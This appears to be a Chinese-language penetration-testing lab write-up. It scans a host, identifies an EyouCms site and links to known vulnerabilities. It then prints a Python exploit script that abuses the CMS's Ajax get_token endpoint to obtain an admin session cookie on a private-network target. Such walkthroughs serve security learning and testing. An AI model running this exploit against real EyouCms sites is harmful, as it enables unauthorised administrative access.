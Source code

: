```bash
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
```

首先尝试 80 端口

2、web指纹：EyouCms

<img src=".\图片\Snipaste_2023-10-25_19-30-34.png" alt="Snipaste_2023-10-25_19-30-34" style="zoom:80%;" />

3、全网搜索 EyouCms 已知漏洞，比起手动探测，这个优先级更高

https://forum.butian.net/share/104

https://www.cnblogs.com/Pan3a/p/14880225.html

代码审计放一旁，不求甚解先利用，找到两个exp，其实看看exp也能大致猜测发生了什么

exp1：

```python
#coding:utf-8
from time import sleep

import requests
header={'x-requested-with':'xmlhttprequest'}
url="http://192.168.10.14/?m=api&c=Ajax&a=get_token&name=admin_id"
r = requests.session()
res = r.get(url,headers = header)
if 'Set-cookie' in res.headers:
    print(res.headers['Set-cookie'])

while True:
    url = "http://192.168.10.14/?m=api&c=Ajax&a=get_token&name=admin_login_expire"
    req = r.get(url,headers = header)
    print(req.text)
```